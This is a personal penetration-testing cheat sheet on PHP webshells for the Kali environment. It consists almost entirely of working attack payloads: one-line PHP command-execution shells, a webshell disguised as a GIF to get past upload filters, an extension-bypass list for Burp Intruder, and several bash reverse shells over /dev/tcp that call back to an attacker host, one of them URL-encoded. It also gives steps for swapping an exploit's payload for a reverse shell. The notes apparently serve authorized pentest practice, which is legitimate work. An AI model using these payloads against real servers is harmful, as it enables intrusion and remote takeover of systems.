 ```yaml
---
category: Uncategorized
tags: []
---
```


### asp, aspx, cfm, jsp, laudanum, perl, php

![[Pasted image 20220202133058.png]]

```bash - kali
cp /usr/share/webshells/
```


### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dicitonary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

### PHP

#### wwolf

```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]


#### php reverse shell payload

If you see php payload in exploit, replace with the following for reverse shell:

ORIGINAL:

```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```

REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```

![[rlwrap]]


#### Pentestmonkey

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```

https://github.com/pascal-gujer/webshellz

#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.

```php
<?php system($_GET[cmd]);?>
```

```php
<?php echo($_GET['cmd']);?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

![[rlwrap]]

```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```

```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

#### GIF
Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

See also: [[5._File Upload]]

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![[rlwrap]]

Upload and access Shelly.php.

```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

#### PHP reverse shell
Shelly.php
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

